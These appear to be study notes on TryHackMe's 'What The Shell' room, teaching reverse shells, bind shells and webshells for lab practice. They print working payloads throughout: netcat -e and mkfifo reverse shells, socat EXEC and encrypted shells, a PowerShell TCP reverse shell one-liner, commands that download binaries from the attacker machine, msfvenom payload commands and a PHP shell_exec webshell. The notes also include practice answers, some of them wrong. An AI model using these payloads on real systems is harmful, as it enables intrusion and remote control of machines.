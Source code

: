 #+TITLE: What The Shell

* What is a shell?

Before we can get into the intricacies of sending and receiving shells, it's important to understand what a shell actually is. In the simplest possible terms, shells are what we use when interfacing with a Command Line environment (CLI). In other words, the common bash or sh programs in Linux are examples of shells, as are cmd.exe and Powershell on Windows. When targeting remote systems it is sometimes possible to force an application running on the server (such as a webserver, for example) to execute arbitrary code. When this happens, we want to use this initial access to obtain a shell running on the target.

In simple terms, we can force the remote server to either send us command line access to the server (a reverse shell), or to open up a port on the server which we can connect to in order to execute further commands (a bind shell).

We will be covering both of these scenarios in further detail throughout the room.

The format of this room is as follows:

   - The bulk of the room is made up of information, with examples given in code blocks and screenshots.
   - There are two VMs -- one Linux, one Windows -- in the last two tasks of the room. These can be used to practice the techniques demonstrated.
   - There are example practice questions in Task 13. Feel free to work through these, or follow along with the tasks as you complete them.

Without further ado, let's begin!

* Tools

There are a variety of tools that we will be using to receive reverse shells and to send bind shells. In general terms, we need malicious shell code, as well as a way of interfacing with the resulting shell. We will discuss each of these briefly below:

** Netcat:

Netcat is the traditional "Swiss Army Knife" of networking. It is used to manually perform all kinds of network interactions, including things like banner grabbing during enumeration, but more importantly for our uses, it can be used to receive reverse shells and connect to remote ports attached to bind shells on a target system. Netcat shells are very unstable (easy to lose) by default, but can be improved by techniques that we will be covering in an upcoming task.

** Socat:

Socat is like netcat on steroids. It can do all of the same things, and many more. Socat shells are usually more stable than netcat shells out of the box. In this sense it is vastly superior to netcat; however, there are two big catches:

   - The syntax is more difficult
   - Netcat is installed on virtually every Linux distribution by default. Socat is very rarely installed by default.

There are work arounds to both of these problems, which we will cover later on.

Both Socat and Netcat have .exe versions for use on Windows.

** Metasploit -- multi/handler:

The auxiliary/multi/handler module of the Metasploit framework is, like socat and netcat, used to receive reverse shells. Due to being part of the Metasploit framework, multi/handler provides a fully-fledged way to obtain stable shells, with a wide variety of further options to improve the caught shell. It's also the only way to interact with a meterpreter shell, and is the easiest way to handle staged payloads -- both of which we will look at in task 9.

** Msfvenom:

Like multi/handler, msfvenom is technically part of the Metasploit Framework, however, it is shipped as a standalone tool. Msfvenom is used to generate payloads on the fly. Whilst msfvenom can generate payloads other than reverse and bind shells, these are what we will be focusing on in this room. Msfvenom is an incredibly powerful tool, so we will go into its application in much more detail in a dedicated task.

Aside from the tools we've already covered, there are some repositories of shells in many different languages. One of the most prominent of these is [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md][Payload all the Things]]. The PentestMonkey [[https://web.archive.org/web/20200901140719/http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet][Reverse Shell Cheatsheet]] is also commonly used. In addition to these online resources, Kali Linux also comes pre-installed with a variety of webshells located at /usr/share/webshells. The [[https://github.com/danielmiessler/SecLists][SecLists repo]], though primarily used for wordlists, also contains some very useful code for obtaining shells.

* Type of Shells

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.

   - Reverse shells are when the target is forced to execute code that connects back to your computer. On your own computer you would use one of the tools mentioned in the previous task to set up a listener which would be used to receive the connection. Reverse shells are a good way to bypass firewall rules that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell. This, however, will not be a problem on the TryHackMe network due to the method by which we connect into the network.

   - Bind shells are when the code executed on the target is used to start a listener attached to a shell directly on the target. This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be prevented by firewalls protecting the target.

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

Reverse Shell example:

Let's start with the more common reverse shell.

Nine times out of ten, this is what you'll be going for -- especially in CTF challenges like those of TryHackMe.

Take a look at the following image. On the left we have a reverse shell listener -- this is what receives the connection. On the right is a simulation of sending a reverse shell. In reality, this is more likely to be done through code injection on a remote website or something along those lines. Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

#+BEGIN_SRC bash
sudo nc -lvnp 443
#+END_SRC

On the target:

#+BEGIN_SRC bash
nc <LOCAL-IP> <PORT> -e /bin/bash
#+END_SRC

Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

Bind Shell example:

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

#+BEGIN_SRC bash
nc -lvnp <port> -e "cmd.exe"
#+END_SRC
On the attacking machine:

#+BEGIN_SRC bash
nc MACHINE_IP <port>
#+END_SRC

As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

The final concept which is relevant in this task is that of interactivity. Shells can be either interactive or non-interactive.

    - Interactive: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to
    interactive shells. These allow you to interact with programs after executing them. For example, take the SSH login prompt:

    Here you can see that it's asking interactively that the user type either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.


    - Non-Interactive shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. Let's see what happens when we try to run SSH in a non-interactive shell:

    Notice that the whoami command (which is non-interactive) executes perfectly, but the ssh command (which is interactive) gives us no output at all. As an interesting side note, the output of an interactive command does go somewhere, however, figuring out where is an exercise for you to attempt on your own. Suffice to say that interactive programs do not work in non-interactive shells. 

Additionally, in various places throughout this task you will see a command in the screenshots called listener. This command is an alias unique to the attacking machine used for demonstrations, and is a shorthand way of typing sudo rlwrap nc -lvnp 443, which will be covered in upcoming tasks. It will not work on any other machine unless the alias has been configured locally.

* Netcat

As mentioned previously, Netcat is the most basic tool in a pentester's toolkit when it comes to any kind of networking. With it we can do a wide variety of interesting things, but let's focus for now on shells.

** Reverse Shells

In the previous task we saw that reverse shells require shellcode and a listener. There are many ways to execute a shell, so we'll start by looking at listeners.

The syntax for starting a netcat listener using Linux is this:

nc -lvnp <port-number>

    -l is used to tell netcat that this will be a listener
    -v is used to request a verbose output
    -n tells netcat not to resolve host names or use DNS. Explaining this is outwith the scope of the room.
    -p indicates that the port specification will follow.

The example in the previous task used port 443. Realistically you could use any port you like, as long as there isn't already a service using it. Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

A working example of this would be:

#+BEGIN_SRC bash
sudo nc -lvnp 443
#+END_SRC

We can then connect back to this with any number of payloads, depending on the environment on the target.

An example of this is displayed in the previous task.

** Bind Shells

If we are looking to obtain a bind shell on a target then we can assume that there is already a listener waiting for us on a chosen port of the target: all we need to do is connect to it. The syntax for this is relatively straight forward:

#+BEGIN_SRC bash
nc <target-ip> <chosen-port>
#+END_SRC
Here we are using netcat to make an outbound connection to the target on our chosen port.

We will look at using netcat to create a listener for this type of shell in Task 8. What's important here is that you understand how to connect to a listening port using netcat.



Which option tells netcat to listen?

A:  -l 

How would you connect to a bind shell on the IP address: 10.10.10.11 with port 8080?

A: nc 10.10.10.11 8080

* Netcat Shell Stabilisation

Ok, so we've caught or connected to a netcat shell, what next?

These shells are very unstable by default. Pressing Ctrl + C kills the whole thing. They are non-interactive, and often have strange formatting errors. This is due to netcat "shells" really being processes running inside a terminal, rather than being bonafide terminals in their own right. Fortunately, there are many ways to stabilise netcat shells on Linux systems. We'll be looking at three here. Stabilisation of Windows reverse shells tends to be significantly harder; however, the second technique that we'll be covering here is particularly useful for it.

** Technique 1: Python

The first technique we'll be discussing is applicable only to Linux boxes, as they will nearly always have Python installed by default. This is a three stage process:

    The first thing to do is use python -c 'import pty;pty.spawn("/bin/bash")', which uses Python to spawn a better featured bash shell; note that some targets may need the version of Python specified. If this is the case, replace python with python2 or python3 as required. At this point our shell will look a bit prettier, but we still won't be able to use tab autocomplete or the arrow keys, and Ctrl + C will still kill the shell.
    Step two is: export TERM=xterm -- this will give us access to term commands such as clear.
    Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process. 

The full technique can be seen here:



Note that if the shell dies, any input in your own terminal will not be visible (as a result of having disabled terminal echo). To fix this, type reset and press enter.

** Technique 2: rlwrap

rlwrap is a program which, in simple terms, gives us access to history, tab autocompletion and the arrow keys immediately upon receiving a shell; however, some manual stabilisation must still be utilised if you want to be able to use Ctrl + C inside the shell. rlwrap is not installed by default on Kali, so first install it with sudo apt install rlwrap.

To use rlwrap, we invoke a slightly different listener:
#+BEGIN_SRC bash
rlwrap nc -lvnp <port>
#+END_SRC
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. When dealing with a Linux target, it's possible to completely stabilise, by using the same trick as in step three of the previous technique: background the shell with Ctrl + Z, then use stty raw -echo; fg to stabilise and re-enter the shell.

** Technique 3: Socat

The third easy way to stabilise a shell is quite simply to use an initial netcat shell as a stepping stone into a more fully-featured socat shell. Bear in mind that this technique is limited to Linux targets, as a Socat shell on Windows will be no more stable than a netcat shell. To accomplish this method of stabilisation we would first transfer a socat static compiled binary (a version of the program compiled to have no dependencies) up to the target machine. A typical way to achieve this would be using a webserver on the attacking machine inside the directory containing your socat binary (sudo python3 -m http.server 80), then, on the target machine, using the netcat shell to download the file. On Linux this would be accomplished with curl or wget (wget <LOCAL-IP>/socat -O /tmp/socat).

For the sake of completeness: in a Windows CLI environment the same can be done with Powershell, using either Invoke-WebRequest or a webrequest system class, depending on the version of Powershell installed (Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe). We will cover the syntax for sending and receiving shells with Socat in the upcoming tasks.

With any of the above techniques, it's useful to be able to change your terminal tty size. This is something that your terminal will do automatically when using a regular shell; however, it must be done manually in a reverse or bind shell if you want to use something like a text editor which overwrites everything on the screen.

First, open another terminal and run stty -a. This will give you a large stream of output. Note down the values for "rows" and columns:

Next, in your reverse/bind shell, type in:

stty rows <number>

and

stty cols <number>

Filling in the numbers you got from running the command in your own terminal.

This will change the registered width and height of the terminal, thus allowing programs such as text editors which rely on such information being accurate to correctly open.

* Socat

Socat is similar to netcat in some ways, but fundamentally different in many others. The easiest way to think about socat is as a connector between two points. In the interests of this room, this will essentially be a listening port and the keyboard, however, it could also be a listening port and a file, or indeed, two listening ports. All socat does is provide a link between two points -- much like the portal gun from the Portal games!

Once again, let's start with reverse shells.

** Reverse Shells

As mentioned previously, the syntax for socat gets a lot harder than that of netcat. Here's the syntax for a basic reverse shell listener in socat:
#+BEGIN_SRC bash
socat TCP-L:<port> -
#+END_SRC
As always with socat, this is taking two points (a listening port, and standard input) and connecting them together. The resulting shell is unstable, but this will work on either Linux or Windows and is equivalent to nc -lvnp <port>.

On Windows we would use this command to connect back:
#+BEGIN_SRC bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:powershell.exe,pipes
#+END_SRC
The "pipes" option is used to force powershell (or cmd.exe) to use Unix style standard input and output.

This is the equivalent command for a Linux Target:
#+BEGIN_SRC bash
socat TCP:<LOCAL-IP>:<LOCAL-PORT> EXEC:"bash -li"
#+END_SRC
** Bind Shells

On a Linux target we would use the following command:
#+BEGIN_SRC bash
socat TCP-L:<PORT> EXEC:"bash -li"
#+END_SRC
On a Windows target we would use this command for our listener:
#+BEGIN_SRC bash
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
#+END_SRC
We use the "pipes" argument to interface between the Unix and Windows ways of handling input and output in a CLI environment.

Regardless of the target, we use this command on our attacking machine to connect to the waiting listener.
#+BEGIN_SRC bash
socat TCP:<TARGET-IP>:<TARGET-PORT> -
#+END_SRC
Now let's take a look at one of the more powerful uses for Socat: a fully stable Linux tty reverse shell. This will only work when the target is Linux, but is significantly more stable. As mentioned earlier, socat is an incredibly versatile tool; however, the following technique is perhaps one of its most useful applications. Here is the new listener syntax:
#+BEGIN_SRC bash
socat TCP-L:<port> FILE:`tty`,raw,echo=0
#+END_SRC
Let's break this command down into its two parts. As usual, we're connecting two points together. In this case those points are a listening port, and a file. Specifically, we are passing in the current TTY as a file and setting the echo to be zero. This is approximately equivalent to using the Ctrl + Z, stty raw -echo; fg trick with a netcat shell -- with the added bonus of being immediately stable and hooking into a full tty.

The first listener can be connected to with any payload; however, this special listener must be activated with a very specific socat command. This means that the target must have socat installed. Most machines do not have socat installed by default, however, it's possible to upload a [[https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true][precompiled socat binary]], which can then be executed as normal.

The special command is as follows:
#+BEGIN_SRC bash
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#+END_SRC
This is a handful, so let's break it down.

The first part is easy -- we're linking up with the listener running on our own machine. The second part of the command creates an interactive bash session with  EXEC:"bash -li". We're also passing the arguments: pty, stderr, sigint, setsid and sane:

   - pty, allocates a pseudoterminal on the target -- part of the stabilisation process
   - stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
   - sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
   - setsid, creates the process in a new session
   - sane, stabilises the terminal, attempting to "normalise" it.

That's a lot to take in, so let's see it in action.

As normal, on the left we have a listener running on our local attacking machine, on the right we have a simulation of a compromised target, running with a non-interactive shell. Using the non-interactive netcat shell, we execute the special socat command, and receive a fully interactive bash shell on the socat listener to the left:

Note that the socat shell is fully interactive, allowing us to use interactive commands such as SSH. This can then be further improved by setting the stty values as seen in the previous task, which will let us use text editors such as Vim or Nano.

If, at any point, a socat shell is not working correctly, it's well worth increasing the verbosity by adding -d -d into the command. This is very useful for experimental purposes, but is not usually necessary for general use.


* Socat Encrypted Shells

One of the many great things about socat is that it's capable of creating encrypted shells -- both bind and reverse. Why would we want to do this? Encrypted shells cannot be spied on unless you have the decryption key, and are often able to bypass an IDS as a result.

We covered how to create basic shells in the previous task, so that syntax will not be covered again here. Suffice to say that any time TCP was used as part of a command, this should be replaced with OPENSSL when working with encrypted shells. We'll cover a few examples at the end of the task, but first let's talk about certificates.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:

#+BEGIN_SRC bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
#+END_SRC

This command creates a 2048 bit RSA key with matching cert file, self-signed, and valid for just under a year. When you run this command it will ask you to fill in information about the certificate. This can be left blank, or filled randomly.
We then need to merge the two created files into a single .pem file:

#+BEGIN_SRC bash
cat shell.key shell.crt > shell.pem
#+END_SRC

Now, when we set up our reverse shell listener, we use:

#+BEGIN_SRC bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
#+END_SRC

This sets up an OPENSSL listener using our generated certificate. verify=0 tells the connection to not bother trying to validate that our certificate has been properly signed by a recognised authority. Please note that the certificate must be used on whichever device is listening.

To connect back, we would use:

#+BEGIN_SRC bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
#+END_SRC

The same technique would apply for a bind shell:

Target:

#+BEGIN_SRC bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
#+END_SRC

Attacker:

#+BEGIN_SRC bash
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
#+END_SRC

Again, note that even for a Windows target, the certificate must be used with the listener, so copying the PEM file across for a bind shell is required.

The following image shows an OPENSSL Reverse shell from a Linux target. As usual, the target is on the right, and the attacker is on the left:


This technique will also work with the special, Linux-only TTY shell covered in the previous task -- figuring out the syntax for this will be the challenge for this task. Feel free to use the Linux Practice box (deployable at the end of the room) to experiment if you're struggling to obtain the answer.



What is the syntax for setting up an OPENSSL-LISTENER using the tty technique from the previous task? Use port 53, and a PEM file called "encrypt.pem"

#+BEGIN_SRC bash
A: socat OPENSSL-LISTEN,cert=encrypt.pem,verify=0 FILE:`tty`,raw,echo=0
#+END_SRC

If your IP is 10.10.10.5, what syntax would you use to connect back to this listener?

#+BEGIN_SRC bash
socat OPENSSL:10.10.10.5:53,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
#+END_SRC


* Common Shell Payloads

We'll soon be looking at generating payloads with msfvenom, but before we do that, let's take a look at some common payloads using the tools we've already covered.

A previous task mentioned that we'd be looking at some ways to use netcat as a listener for a bindshell, so we'll start with that. In some versions of netcat (including the nc.exe Windows version included with Kali at /usr/share/windows-resources/binaries, and the version used in Kali itself: netcat-traditional) there is a -e option which allows you to execute a process on connection. For example, as a listener:


#+BEGIN_SRC bash
nc -lvnp <PORT> -e /bin/bash
#+END_SRC


Connecting to the above listener with netcat would result in a bind shell on the target.

Equally, for a reverse shell, connecting back with nc <LOCAL-IP> <PORT> -e /bin/bash would result in a reverse shell on the target.

However, this is not included in most versions of netcat as it is widely seen to be very insecure (funny that, huh?). On Windows where a static binary is nearly always required anyway, this technique will work perfectly. On Linux, however, we would instead use this code to create a listener for a bind shell:

#+BEGIN_SRC bash
mkfifo /tmp/f; nc -lvnp <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
#+END_SRC


The following paragraph is the technical explanation for this command. It's slightly above the level of this room, so don't worry if it doesn't make much sense for now -- the command itself is what matters.

    The command first creates a named pipe at /tmp/f. It then starts a netcat listener, and connects the input of the listener to the output of the named pipe. The output of the netcat listener (i.e. the commands we send) then gets piped directly into sh, sending the stderr output stream into stdout, and sending stdout itself into the input of the named pipe, thus completing the circle.


A very similar command can be used to send a netcat reverse shell:

#+BEGIN_SRC bash
mkfifo /tmp/f; nc <LOCAL-IP> <PORT> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
#+END_SRC

This command is virtually identical to the previous one, other than using the netcat connect syntax, as opposed to the netcat listen syntax.


When targeting a modern Windows Server, it is very common to require a Powershell reverse shell, so we'll be covering the standard one-liner PSH reverse shell here.

This command is very convoluted, so for the sake of simplicity it will not be explained directly here. It is, however, an extremely useful one-liner to keep on hand:

#+BEGIN_SRC bash
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<ip>',<port>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
#+END_SRC

In order to use this, we need to replace "<IP>" and "<port>" with an appropriate IP and choice of port. It can then be copied into a cmd.exe shell (or another method of executing commands on a Windows server, such as a webshell) and executed, resulting in a reverse shell:

For other common reverse shell payloads, [[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md][PayloadAllTheThings]] is a repository containing a wide range of shell codes (usually in one-liner format for copying and pasting), in many different languages. It is well worth reading through the linked page to see what's available.



What command can be used to create a named pipe in Linux?

A: mkfifo


* MsfVenom

Msfvenom: the one-stop-shop for all things payload related.

Part of the Metasploit framework, msfvenom is used to generate code for primarily reverse and bind shells. It is used extensively in lower-level exploit development to generate hexadecimal shellcode when developing something like a Buffer Overflow exploit; however, it can also be used to generate payloads in various formats (e.g. .exe, .aspx, .war, .py). It's this latter function that we will be making use of in this room. There is more to teach about msfvenom than could ever be fit into a single room, let alone a single task, so the following information will be a brief introduction to the concepts that will prove useful for this room.

The standard syntax for msfvenom is as follows:

msfvenom -p <PAYLOAD> <OPTIONS>

For example, to generate a Windows x64 Reverse Shell in an exe format, we could use:

msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>


Here we are using a payload and four options:

    -f <format>
        Specifies the output format. In this case that is an executable (exe)
    -o <file>
        The output location and filename for the generated payload.
    LHOST=<IP>
        Specifies the IP to connect back to. When using TryHackMe, this will be your tun0 IP address. If you cannot load the link then you are not connected to the VPN.
    LPORT=<port>
        The port on the local machine to connect back to. This can be anything between 0 and 65535 that isn't already in use; however, ports below 1024 are restricted and require a listener running with root privileges.

Staged vs Stageless

Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

    Staged payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.
    Stageless payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discover and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by less-effective antivirus software. Modern day antivirus solutions will also make use of the Anti-Malware Scan Interface (AMSI) to detect the payload as it is loaded into memory by the stager, making staged payloads less effective than they would once have been in this area.

Meterpreter

On the subject of Metasploit, another important thing to discuss is a Meterpreter shell. Meterpreter shells are Metasploit's own brand of fully-featured shell. They are completely stable, making them a very good thing when working with Windows targets. They also have a lot of inbuilt functionality of their own, such as file uploads and downloads. If we want to use any of Metasploit's post-exploitation tools then we need to use a meterpreter shell, however, that is a topic for another time. The downside to meterpreter shells is that they must be caught in Metasploit. They are also banned from certain certification examinations, so it's a good idea to learn alternative methodologies.

Payload Naming Conventions

When working with msfvenom, it's important to understand how the naming system works. The basic convention is as follows:

<OS>/<arch>/<payload>

For example:

linux/x86/shell_reverse_tcp

This would generate a stageless reverse shell for an x86 Linux target.

The exception to this convention is Windows 32bit targets. For these, the arch is not specified. e.g.:

windows/shell_reverse_tcp

For a 64bit Windows target, the arch would be specified as normal (x64).

Let's break the payload section down a little further.
In the above examples the payload used was shell_reverse_tcp. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be:

shell/reverse_tcp

As staged payloads are denoted with another forward slash (/).

This rule also applies to Meterpreter payloads. A Windows 64bit staged Meterpreter payload would look like this:

windows/x64/meterpreter/reverse_tcp

A Linux 32bit stageless Meterpreter payload would look like this:

linux/x86/meterpreter_reverse_tcp

Aside from the msfconsole man page, the other important thing to note when working with msfvenom is:

msfvenom --list payloads

This can be used to list all available payloads, which can then be piped into grep to search for a specific set of payloads. For example:

This gives us a full set of Linux meterpreter payloads for 32bit targets.





Which symbol is used to show that a shell is stageless?

A : _




What command would you use to generate a staged meterpreter reverse shell for a 64bit Linux target, assuming your own IP was 10.10.10.5, and you were listening on port 443? The format for the shell is elf and the output filename should be shell


A : msfvenom -p linux/x86/meterpreter/reverse_tcp -f elf -o shell.elf LHOST=10.10.10.5 LPORT=443

* Metasploit Multi-handler


Multi/Handler is a superb tool for catching reverse shells. It's essential if you want to use Meterpreter shells, and is the go-to when using staged payloads.

Fortunately, it's relatively easy to use:

   - Open Metasploit with msfconsole
   - Type use multi/handler, and press enter

We are now primed to start a multi/handler session. Let's take a look at the available options using the options command:

There are three options we need to set: payload, LHOST and LPORT. These are all identical to the options we set when generating  shellcode with Msfvenom -- a payload specific to our target, as well as a listening address and port with which we can receive a shell. Note that the LHOST must be specified here, as metasploit will not listen on all network interfaces like netcat or socat will; it must be told a specific address to listen with (when using TryHackMe, this will be your tun0 address). We set these options with the following commands:

   - set PAYLOAD <payload>
   - set LHOST <listen-address>
   - set LPORT <listen-port>

We should now be ready to start the listener!

Let's do this by using the exploit -j command. This tells Metasploit to launch the module, running as a job in the background.


You may notice that in the above screenshot, Metasploit is listening on a port under 1024. To do this, Metasploit must be run with sudo permissions.

When the staged payload generated in the previous task is run, Metasploit receives the connection, sending the remainder of the payload and giving us a reverse shell:

Notice that, because the multi/handler was originally backgrounded, we needed to use sessions 1 to foreground it again. This worked as it was the only session running. Had there been other sessions active, we would have needed to use sessions to see all active sessions, then use sessions <number> to select the appropriate session to foreground. This number would also have been displayed in the line where the shell was opened (see "Command Shell session 1 opened").



What command can be used to start a listener in the background?

A : exploit -j



If we had just received our tenth reverse shell in the current Metasploit session, what would be the command used to foreground it?

A : sessions 1


* Webshells

There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the Upload Vulnerabilities Room for a more extensive look at this concept.

"Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>

This will take a GET parameter in the URL and execute it on the system with shell_exec(). Essentially, what this means is that any commands we enter in the URL after ?cmd= will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

Notice that when navigating the shell, we used a GET parameter "cmd" with the command "ifconfig", which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. whoami, hostname, arch, etc).

As mentioned previously, there are a variety of webshells available on Kali by default at /usr/share/webshells -- including the infamous PentestMonkey php-reverse-shell -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

